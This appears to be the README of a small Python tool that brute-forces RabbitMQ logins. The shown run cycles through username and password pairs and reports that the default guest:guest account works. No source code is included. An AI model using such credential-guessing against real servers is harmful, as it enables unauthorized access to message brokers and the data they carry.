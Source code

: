 rabbitbrute
===========

Simple brute-force module for RabbitMQ servers. Currently takes user and password list from /tmp directory (see source).

Example:


laptop:rabbitbrute myles$ python rabbitbrute.py

[-] Connection refused: test : password
[-] Connection refused: test : secret
[-] Connection refused: test : guest
[-] Connection refused: guest : password
[-] Connection refused: guest : secret
[+] Success. User: guest --- Password: guest
[-] Connection refused: admin : password
[-] Connection refused: admin : secret
[-] Connection refused: admin : guest
[-] Connection refused: myles : password
[-] Connection refused: myles : secret
[-] Connection refused: myles : guest
[-] Connection refused: user : password
[-] Connection refused: user : secret
[-] Connection refused: user : guest
[-] Connection refused: system : password
[-] Connection refused: system : secret
[-] Connection refused: system : guest
[+] Brute force finished
laptop:rabbitbrute myles$ 
